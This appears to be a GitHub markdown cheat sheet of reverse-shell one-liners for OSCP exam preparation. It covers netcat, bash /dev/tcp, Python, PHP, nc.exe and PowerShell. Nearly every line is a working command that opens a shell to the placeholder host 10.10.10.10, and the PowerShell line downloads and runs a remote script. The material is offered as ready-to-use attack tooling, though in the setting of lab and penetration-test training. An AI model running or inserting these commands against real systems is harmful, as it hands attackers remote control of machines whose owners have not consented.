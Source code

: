# OSCP Reverse Shell Cheat Sheet
Created by mr-b4rt0wsk1 on 06/30/2020

## LINUX

### nc

Used older versions of nc.  If you find yourself needing another shell (like for priv esc/root), the second one is used to not overwrite the first:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f`

`rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 5555 >/tmp/g`

For some command injections:

`rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c "cat /tmp/x | /bin/sh -i 2>&1 | nc 10.10.10.10 80 > /tmp/x"`

The -e options is only valid for some versions of nc:

`nc -e /bin/sh 10.10.10.10 4444`

If you need no slashes:

`nc 10.10.10.10 4444 -c bash`

### Bash

`bash -i >& /dev/tcp/10.10.10.10/4444 0>&1`

### Python

One-liner:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

To use as a file:

```python
#!/usr/bin/python
import socket,subprocess,os

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.10",4444))

os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

### PHP

Assumes that the TCP connection uses the file descriptor 3.  If it doesn't work, try 4, 5, 6 ...

`php -r '$sock=fsockopen("10.10.10.10",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

If you need a `.php` file, check:
* `/opt/php-reverse-shell-1.0/php-reverse-shell.php`
    * This is where I installed it
* `/usr/share/laudanum/php/php-reverse-shell.php`
    * This is where it can be found on Kali distros
* `/usr/share/webshells/php/php-reverse-shell.php`
    * Also where it can be found Kali distros
* Use `locate php-reverse-shell.php` to find more, if needed

## WINDOWS

### nc

`nc.exe 10.10.10.10 4444 -e cmd.exe`

This binary should be located at `/usr/share/windows-resources/binaries/nc.exe`

You can run `locate nc.exe` to find the path if it differs

### PowerShell
`powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1')`

You will need to edit the script to call itself using our IP address and port, as seen in ippsec's video for Optimum HTB. Then serve up the file, probably via a python webserver.

## Resources
* pentestmonkey [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* PayloadsAllTheThings [repo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* nishang [repo](https://github.com/samratashok/nishang)
* msfvenom [cheat sheet](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)
* ippsec's Optimum HTB [video](https://www.youtube.com/watch?v=kWTnVBIpNsE&ab_channel=IppSec)